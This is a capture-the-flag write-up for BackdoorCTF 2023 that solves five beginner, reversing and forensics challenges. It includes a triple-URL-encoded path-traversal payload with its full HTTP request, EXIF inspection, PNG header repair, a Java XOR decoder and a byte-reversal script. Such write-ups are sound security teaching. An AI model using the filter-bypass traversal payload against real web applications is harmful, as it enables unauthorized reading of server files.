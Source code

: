 # BackdoorCTF 2023 writeups
ctftime link: https://ctftime.org/event/2153
## Beginner/secret_of_j4ck4l

![image](https://github.com/zer00d4y/writeups/assets/128820441/69b19377-2173-46ff-b3e0-05ad52c33cc3)

Simple LFI, but you need to consider filters, which remove ' . '  and ' / '

We need to use this payload: %25252e%25252e%25252fflag%25252etxt

http://34.132.132.69:8003/read_secret_message?file=%25252e%25252e%25252fflag%25252etxt

    GET /read_secret_message?file=%25252E%25252E%25252Fflag%25252Etxt HTTP/1.1
    Host: 34.132.132.69:8003
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: close


![image](https://github.com/zer00d4y/writeups/assets/128820441/21e53ec7-28c2-400c-85ca-da7d9be2fd0d)

FLAG: `flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}`

## Beginner/Beginner-menace

We have this image

![friend](https://github.com/zer00d4y/writeups/assets/128820441/4a154e7c-0c5b-41ff-bdfb-58e6d88635d8)

It's very easy and simple, just check meta data with exiftool or other exif tools

`exiftool friend.jpeg`

    ┌──(kali㉿kali)-[~/Downloads]
    └─$ exiftool friend.jpeg 
    ExifTool Version Number         : 12.67
    File Name                       : friend.jpeg
    Directory                       : .
    File Size                       : 6.5 kB
    File Modification Date/Time     : 2023:12:15 09:26:43-05:00
    File Access Date/Time           : 2023:12:20 05:09:27-05:00
    File Inode Change Date/Time     : 2023:12:20 05:09:27-05:00
    File Permissions                : -rw-r--r--
    File Type                       : JPEG
    File Type Extension             : jpg
    MIME Type                       : image/jpeg
    JFIF Version                    : 1.01
    Exif Byte Order                 : Big-endian (Motorola, MM)
    X Resolution                    : 1
    Y Resolution                    : 1
    Resolution Unit                 : None
    Artist                          : flag{7h3_r34l_ctf_15_7h3_fr13nd5_w3_m4k3_al0ng}
    Y Cb Cr Positioning             : Centered
    Image Width                     : 266
    Image Height                    : 190
    Encoding Process                : Baseline DCT, Huffman coding
    Bits Per Sample                 : 8
    Color Components                : 3
    Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
    Image Size                      : 266x190
    Megapixels                      : 0.051


FLAG: `flag{7h3_r34l_ctf_15_7h3_fr13nd5_w3_m4k3_al0ng}`

## Beginner/Headache

Change the bytes at the beginning so the file opens as a png.

like this 

    89 50 4E 47 0D 0A 1A 0A
    
![image](https://github.com/zer00d4y/writeups/assets/128820441/8870f78f-a347-4ff5-991e-4bdd674b897d)

FLAG: `flag{sp3ll_15_89_50_4E_47}`

## Rev/Open Sesame

Whisper the phrase, unveil with 'Open Sesame

Attachment: https://staticbckdr.infoseciitr.in/opensesame.zip

![image](https://github.com/zer00d4y/writeups/assets/128820441/d6ef115f-692d-4d9c-8d0a-6f41bdf3a845)

![image](https://github.com/zer00d4y/writeups/assets/128820441/32bc7936-ad23-417d-ad71-6e357336fd56)

        class Main{
        	public static void main(String[] args){
        		String str2 = "U|]rURuoU^PoR_FDMo@X]uBUg";
        		StringBuilder sb = new StringBuilder();
        		String str = "40";
        		for (int i = 0; i < str2.length(); i++) {
        			sb.append((char) (str2.charAt(i) ^ str.charAt(i % str.length())));
        		}
        		System.out.println(sb.toString());
        	}
        }


FLag: `flag{aLiBabA_and_forty_thiEveS}`

## Forensics/Forenscript

It's thundering outside and you are you at your desk having solved 4 forensics challenges so far. Just pray to god you solve this one. You might want to know that sometimes too much curiosity hides the flag.

        with open("a.bin", "rb") as data:
	        with open("recovered", "ab") as output:
		        while data:
			        bytes = data.read(4)
			        if bytes == b'':
				        break
			        print(bytes[::-1])
			        output.write(bytes[::-1])



`file a.bin`

![image](https://github.com/zer00d4y/writeups/assets/128820441/819a8af7-65b2-4847-adc1-574826f2ef94)

        file recovered

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c069615-df27-44c3-8344-e13286b71659)

        binwalk -e recovered

![image](https://github.com/zer00d4y/writeups/assets/128820441/ee8b23f5-fbf8-4a38-aee3-4c6525514fe9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/40b8ee79-9772-413c-be00-bba7576c10f5)

![image](https://github.com/zer00d4y/writeups/assets/128820441/9d50d90f-7876-4515-a8ae-cb8ca1aafec4)

![image](https://github.com/zer00d4y/writeups/assets/128820441/4a8e08bd-6b74-4207-bd16-7e9190a75901)

FLAG: `flag{scr1pt1ng_r34lly_t0ugh_a4n't_1t??}`
